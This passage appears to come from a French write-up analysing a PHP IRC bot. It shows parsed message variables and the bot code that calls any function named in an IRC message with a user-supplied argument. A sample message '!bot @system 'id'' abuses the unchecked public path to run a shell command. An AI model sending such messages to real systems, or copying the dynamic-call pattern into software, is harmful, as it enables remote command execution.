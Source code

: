```php
$user = root
$dropMsg = root
$called = true
$pubcalled = false
$cmd = system
$arg = 'id'
```

et pour ce message :  

```plain
:root!~root@192.168.1.3 PRIVMSG abcd :!bot @system 'id'
```

celles-çi :  

```php
$user = root
$dropMsg = root
$called = false
$pubcalled = true
$cmd = system
$arg = 'id'
```

Il semble que les commandes préfixées par *!cmd* soint destinées aux administrateurs uniquement (appel d'une fonction admin() pour vérifier) :  

```php
if($called){
    if($cmd=="shell") { $arg = $line[4]." ".$arg; }
    $cmd = ($cmd=="join")?"joins":$cmd;
    if ($typeMsg=="PRIVMSG" && admin($user) && $called && $cmd) {
	if(function_exists($cmd)){
	    $sender = "PRIVMSG ".$dropMsg." "._;
	    $GLOBALS['sender'] = $sender;
	    $arg = str_replace("\r","",$arg);
	    $arg = str_replace("\n","",$arg);
	    $cmd($arg);
	}
    }
}
```

alors que celles préfixées de *!bot* sont considérées publiques :  

```php
if($pubcalled){
    if ($typeMsg=="PRIVMSG" && $user && $pubcalled && $pubcmd) {
	if(function_exists($pubcmd)){
	    $sender = "PRIVMSG ".$dropMsg." "._;
	    $GLOBALS['sender'] = $sender;
	    $arg = str_replace("\r","",$arg);
	    $arg = str_replace("\n","",$arg);
	    $pubcmd($arg);
	}
    }
}
```

